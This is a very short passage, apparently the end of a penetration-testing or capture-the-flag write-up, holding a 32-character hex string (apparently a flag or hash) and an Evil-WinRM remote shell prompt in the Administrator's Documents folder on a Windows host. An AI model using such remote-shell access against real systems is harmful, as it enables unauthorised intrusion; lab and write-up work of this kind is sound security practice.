a1f204c405aea3638850f09ad774f7b8
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

